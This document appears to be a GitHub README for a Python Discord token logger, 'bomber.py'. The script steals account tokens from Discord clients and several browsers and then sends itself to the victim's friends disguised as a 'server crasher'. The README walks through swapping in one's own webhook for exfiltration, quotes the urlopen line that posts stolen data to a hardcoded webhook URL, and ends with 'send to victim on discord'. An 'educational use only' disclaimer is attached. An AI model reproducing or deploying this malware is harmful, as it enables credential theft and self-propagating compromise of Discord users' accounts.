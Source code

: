 To run this you need to have python installed on your computer.

To download it go to: https://www.python.org/downloads/ and get the latest stable version.

DO NOT RUN THIS ON YOUR COMPUTER if you want to see what it does i recomend you run it in a vm and not a computer that you have logged your main discord account in previously.

This python script when you run it will token log the person and then send the file (bomber.py) to everyone on there friends list saying its a discord server crasher.

information it will return: ![Screenshot 2021-05-09 145846](https://user-images.githubusercontent.com/83868916/117561181-d00e7e00-b0d7-11eb-9921-46f8689a5e19.png)

## It token logs from

Chrome

Discord

Discord PTB

Discord Canary

Opera

Brave

Yandex

## instuctions

If you want to change were it sends the token to.

1. create a discord server 

 ![Screenshot 2021-05-09 150939](https://user-images.githubusercontent.com/83868916/117561272-a3a73180-b0d8-11eb-8ff1-bd4e4e4584e8.png)

2. add a webhook ![Screenshot 2021-05-09 150105](https://user-images.githubusercontent.com/83868916/117561184-d270d800-b0d7-11eb-9432-49ec9ff63840.png)

3. copy webhook url ![Screenshot 2021-05-09 150143](https://user-images.githubusercontent.com/83868916/117561189-d69cf580-b0d7-11eb-8473-9b7f8d902403.png)

4. open the bommer.py in IDLE or another python editor ![Screenshot 2021-05-09 150211](https://user-images.githubusercontent.com/83868916/117561191-d7ce2280-b0d7-11eb-9978-ee33c259c576.png)

5. scroll down to the last line before the blank (big gap in code) near the bottom 
 were it says 
try:
        urlopen(Request("https://discord.com/api/webhooks/842670576677814292/x6AJt5CcuKtDX4JzZpPxztOsOXYHs0NFWv2i6ASDiw37AusGXgo9fT2GaJBCIAGQn8fE", data=dumps(webhook).encode(), headers=getheaders())) ![Screenshot 2021-05-09 150239](https://user-images.githubusercontent.com/83868916/117561194-d997e600-b0d7-11eb-8225-0bb6d77fa324.png)
6. change the "https://discord.com/api/webhooks/842670576677814292/x6AJt5CcuKtDX4JzZpPxztOsOXYHs0NFWv2i6ASDiw37AusGXgo9fT2GaJBCIAGQn8fE" to your webhook url ![Screenshot 2021-05-09 150300](https://user-images.githubusercontent.com/83868916/117561195-dac91300-b0d7-11eb-9494-a55d8f6e5276.png)

7. save the file ![Screenshot 2021-05-09 151713](https://user-images.githubusercontent.com/83868916/117561385-b2421880-b0d9-11eb-98c4-00c3641d6ba6.png)

8. send to victim on discord ![Screenshot 2021-05-09 145846](https://user-images.githubusercontent.com/83868916/117561181-d00e7e00-b0d7-11eb-9921-46f8689a5e19.png)

# **!!Disclaimer this is for educational use only and i am not responsible for your actions or uses of this code!!**

**feel free to ask any questions or report any issues in the issues tab**
